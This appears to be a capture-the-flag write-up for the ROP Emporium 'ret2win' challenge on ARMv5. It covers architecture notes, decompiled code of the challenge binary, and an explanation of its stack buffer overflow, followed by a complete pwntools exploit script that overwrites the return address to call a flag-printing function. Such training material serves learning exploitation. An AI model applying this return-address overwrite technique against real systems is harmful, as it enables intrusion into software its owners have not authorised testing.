 # Ret2win (ARMv5)

## ARMv5 architecture
user manual [Here](https://usermanual.wiki/Pdf/ARM20Architecture20Reference20Manual20ARMv5.108534978/view)
### Processor modes
![pm1](imgs/processor_modes_1.png)
![pm2](imgs/processor_modes_2.png)
### Calling convention
![cv](imgs/armv5_calling.png)
#### Arguments
`r0`, `r1`, `r2`, `r3`, `stack`
#### Results
`r0`, `r1`, `r2`, `r3`
### Frame structure
[framestructure](https://lukaswoodtli.github.io/arm_stack_frame.html)

## Reversing with Ghidra
### Main
```c
int main() {
  puts("ret2win by ROP Emporium");
  puts("x86_64\n");
  pwnme();
  puts("\nExiting");
  return 0;
}
```
### pwnme
```c
void pwnme() {
  char buf[32];
  
  memset(buf, 0, 0x20);
  puts("For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!");
  puts("What could possibly go wrong?");
  puts("You there, may I have your input please? And don\'t worry about null bytes, we\'re using read()!\n");
  printf("> ");
  read(0, buf, 0x38);
  puts("Thank you!");
  return;
}
```
### ret2win (target)
```c
void ret2win() {
  puts("Well done! Here\'s your flag:");
  system("/bin/cat flag.txt");
  return;
}
```

## The vuln
The `read` function reads `0x38` (`56`) bytes but the buffer is only `32` bytes long, this allows us to overflow the `buf` variable and write on the stack wherever we want (the `return address` in our case).

## The exploit
```py
from pwn import *
from time import sleep

#
# Context
#

e = context.binary = ELF('ret2win_armv5')

#
# ROP
#

target = 0x000105ec

#
# Find Offset
#

# launch qemu with payload
"""
python3 -c 'from pwn import *; print(cyclic(0x38))' | qemu-arm -L /usr/arm-linux-gnueabihf -g <port> ./ret2win_armv5
"""

# gdb-multiarch script
"""
symbol-file ret2win_armv5
set arch arm
target remote :<port>

b *pwnme+100
ni
i r pc

Output: 616a6160
Warning: The output bytes are offset by -1
"""

# calculate offset
"""
python3 -c 'from pwn import *; print(cyclic_find(bytes.fromhex(hex(int(input(), 16) + 1)[2:])) + 1)'
"""

offset = 36
info(f'Offset: {offset}')

#
# Exploit
#

payload  = b''
payload += b'A' * offset
payload += p32(target-4)

io = process(['qemu-arm', '-L', '/usr/arm-linux-gnueabihf', './ret2win_armv5'])
io.sendlineafter(b'> ', payload)
info(io.recvuntil(b'}\n').decode())

io.close()
```
